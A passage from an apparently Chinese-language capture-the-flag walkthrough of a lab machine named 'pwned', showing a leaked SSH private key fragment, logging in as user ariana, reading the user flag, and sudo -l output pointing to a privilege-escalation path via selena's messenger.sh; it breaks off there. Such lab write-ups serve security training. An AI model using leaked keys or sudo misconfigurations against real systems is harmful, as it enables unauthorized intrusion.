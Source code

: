```
N71H6gMon74vcdSYpg3EbqocEeUN4ZOq23Bc5R64TLu2mnOrHvOlcMzUq9ydAAufgHSsbY
GxY4+eGHY4WJUdAAAADHJvb3RAQW5ubHlubgECAwQFBg==
-----END OPENSSH PRIVATE KEY-----
```

### 登录ariana用户ssh服务

```bash
chmod 600 id_rsa
```

```bash
ssh ariana@192.168.56.125 -i id_rsa
```

拿到`user1.txt`

```bash
ariana@pwned:~$ ls
ariana-personal.diary  user1.txt
ariana@pwned:~$ cat user1.txt 
congratulations you Pwned ariana 

Here is your user flag ↓↓↓↓↓↓↓

fb8d98be1265dd88bac522e1b2182140

Try harder.need become root
```

`ariana-personal.diary`内容

> Its Ariana personal Diary :::
>
> Today Selena fight with me for Ajay. so i opened her hidden_text on server. now she resposible for the issue.
>
> 其Ariana个人日记：
> 今天赛琳娜和我为阿杰而战。
> 所以我在服务器上打开了她的隐藏文本。
> 现在她要为这个问题负责了。

尝试提权

```bash
ariana@pwned:~$ sudo -l
Matching Defaults entries for ariana on pwned:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ariana may run the following commands on pwned:
    (selena) NOPASSWD: /home/messenger.sh
```

发现可以使用`selena`的`/home/messenger.sh`
